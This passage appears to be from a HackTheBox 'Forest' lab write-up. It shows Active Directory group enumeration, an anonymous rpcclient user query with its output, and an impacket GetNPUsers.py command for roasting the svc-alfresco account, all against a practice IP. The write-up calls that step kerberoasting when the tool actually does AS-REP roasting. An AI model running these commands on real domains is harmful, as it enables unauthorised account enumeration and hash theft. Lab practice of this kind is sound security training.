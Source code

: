```
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
```

- `rpcclient -U "" -c "queryuser andy" -N 10.10.10.161` get info on users

```
┌──(kali㉿kali)-[~/Documents/hackthebox/forest]
└─$ rpcclient -U "" -c "queryuser andy" -N 10.10.10.161
        User Name   :   andy
        Full Name   :   Andy Hislip
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 31 Dec 1969 19:00:00 EST
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Sun, 22 Sep 2019 18:44:16 EDT
        Password can change Time :      Mon, 23 Sep 2019 18:44:16 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x47e
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...

```

- Let's try to kerberoast.
- The domain is HTB `python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 htb/svc-alfresco -no-pass `
